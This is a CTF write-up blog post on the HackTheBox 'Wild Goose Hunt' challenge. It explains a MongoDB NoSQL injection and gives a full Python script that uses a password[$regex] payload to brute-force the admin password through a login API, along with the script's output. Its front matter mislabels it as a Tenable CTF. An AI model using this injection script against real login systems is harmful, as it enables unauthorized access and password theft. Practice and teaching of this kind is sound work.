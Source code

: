 ```yaml
---
layout: post
title: Tenable CTF Writeup
date: 2021-04-19 01:00 +0700
modified: 2021-04-26 09:45:00 +0700
description:  0x90skids writeups for the 2021 HackTheBox CTF Competition
tag:
  - ctf
  - writeup
image: https://0x90skids.com/htb_ctf_logo.png
author: 0x90skids
summmary: 0x90skids writeups for the 2021 HackTheBox CTF Competition
comments: true
---
```

<img class="img-fluid rounded z-depth-1" style="width:100px;height:100px;" src="htb_ctf_logo.png">
>  HackTheBox Cyber Apocalypse 2021 CTF was an event hosted online. 0x90skids recently competed in the competition.

# Categories 

+  [Web](#web)

## Web
### Wild Goose Hunt
**Solved By:** Bib<br>
**Points:** 300<br>
**Flag:** CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}

##### Challenge
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

##### Solution

I first checked the challenge page. I was greeted with a login screen :
<br>
  <img src="images\htb-ctf\wild_goose_hunt_login.png" alt="login screen">
<br>
After looking at the login screen a little bit, I went ahead and looked at the challenge's downloadable source code. I saw that this challenge was using MongoDB and that the flag was the admin password. This means that we need to either get inside the database or login using a NoSQL injection. I've tried different payloads using Burp and finally got one that worked :
<br>
  <img src="images\htb-ctf\wild_goose_hunt_burp.png" alt="burp payload">
<br>
The working payload was found via an article on ([HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)). This article also shows a script that brute-force each character (username or password) using regex. I modified this script to fit the challenge. Here's my final script :
<br>
```python
import requests, string, json, sys

url = "http://178.62.14.240:32507/api/login"
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password():
    print("Bruteforcing password... Please wait!")
    params = {"username":"admin", "password[$regex]":""}
    password = "^CHTB{"
    print(password[1:].replace("\\", ""))
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, verify=False, allow_redirects=False)
            data_raw = json.loads(pr.text)
            data = json.dumps(data_raw, indent=2)
            if "Login Successful" in data:
                password += c
                print(password[1:].replace("\\", ""))
                break
        if c == possible_chars[-1]:
            print("Found password : "+password[1:].replace("\\", ""))

get_password()```
<br>
Here's the output from my script :
<br>
```
Bruteforcing password... Please wait!
CHTB{
CHTB{1
CHTB{1_
CHTB{1_t
CHTB{1_th
CHTB{1_th1
CHTB{1_th1n
CHTB{1_th1nk
CHTB{1_th1nk_
CHTB{1_th1nk_t
CHTB{1_th1nk_th
CHTB{1_th1nk_the
CHTB{1_th1nk_the_
CHTB{1_th1nk_the_4
CHTB{1_th1nk_the_4l
CHTB{1_th1nk_the_4l1
CHTB{1_th1nk_the_4l1e
CHTB{1_th1nk_the_4l1en
CHTB{1_th1nk_the_4l1ens
CHTB{1_th1nk_the_4l1ens_
CHTB{1_th1nk_the_4l1ens_h
CHTB{1_th1nk_the_4l1ens_h4
CHTB{1_th1nk_the_4l1ens_h4v
CHTB{1_th1nk_the_4l1ens_h4ve
CHTB{1_th1nk_the_4l1ens_h4ve_
CHTB{1_th1nk_the_4l1ens_h4ve_n
CHTB{1_th1nk_the_4l1ens_h4ve_n0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_u
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_us
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_use
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0n
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}

Found password : CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}```
<br>
Bingo! Interesting challenge that helped me understand NoSQL auth bypass techniques.
<br>
`CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`